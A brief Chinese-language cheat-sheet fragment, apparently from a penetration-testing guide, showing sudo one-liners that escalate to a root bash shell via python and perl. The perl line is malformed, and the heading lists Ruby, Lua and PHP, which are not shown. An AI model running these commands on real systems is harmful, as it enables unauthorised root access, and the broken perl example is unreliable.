 ### Python/Perl/Ruby/Lua/PHP 命令提权

```bash
# python
sudo python -c "import os;os.system('/bin/bash')"

# perl
sudo exec "/bin/bash";
```

![](https://pic1.imgdb.cn/item/68d36953c5157e1a882c6ff7.png)